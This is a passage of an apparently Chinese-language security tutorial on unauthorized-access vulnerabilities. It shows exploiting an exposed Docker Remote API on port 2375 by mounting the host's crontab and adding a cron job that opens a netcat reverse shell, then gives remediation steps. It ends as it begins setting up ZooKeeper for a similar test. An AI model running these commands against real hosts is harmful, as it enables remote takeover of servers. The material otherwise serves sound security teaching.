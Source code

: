 2、反弹shell

```
nc -lvnp 9999
```

启动容器

```shell
docker -H tcp://172.16.144.135:2375 run -id -v /etc/crontabs:/tmp alpine:latest
//主要查看images id值
docker -H tcp://172.16.144.135:2375 ps
//进入进程shell
docker -H tcp://172.16.144.135:2375 exec -it fd986b9a93f2 sh		//image id 必须本地拉取新的id值
//新建计划任务
echo '* * * * * /usr/bin/nc 172.16.144.135 9988 -e /bin/sh' >> /tmp/root
//获取计划任务信息列表
cat /tmp/root
```

![image-20200707103740566](/images/Unauthorized/image-20200707103740566.png)

反弹成功

![image-20200707103806562](/images/Unauthorized/image-20200707103806562.png)

3、未授权访问检测

```shell
//此脚本可以检测未授权访问漏洞，反弹shell未实验
https://github.com/Tycx2ry/docker_api_vul
```

##### 漏洞修复

1、2375端口做网络访问控制

2、修改docker swarm的认证方式，使用TLS认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS这两篇文档，说的是配置好TLS后，Docker CLI 在发送命令到docker daemon之前，会首先发送它的证书，如果证书是由daemon信任的CA所签名的，才可以继续执行。

#### ZooKeeper 未授权访问

##### 漏洞描述

Zookeeper是分布式协同管理工具，常用来管理系统配置信息，提供分布式协同服务。Zookeeper的默认开放端口是2181。Zookeeper安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用Zookeeper，通过服务器收集敏感信息或者在Zookeeper集群内进行破坏（比如：kill命令）。攻击者能够执行所有只允许由管理员运行的命令。

##### 漏洞验证

0、环境搭建

```shell
wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
tar -xzvf zookeeper-3.4.14.tar.gz 
cd zookeeper-3.4.14/conf
mv zoo_sample.cfg zoo.cfg
../bin/zkServer.sh start	//服务启动
../bin/zkServer.sh stop	  //服务停止
```
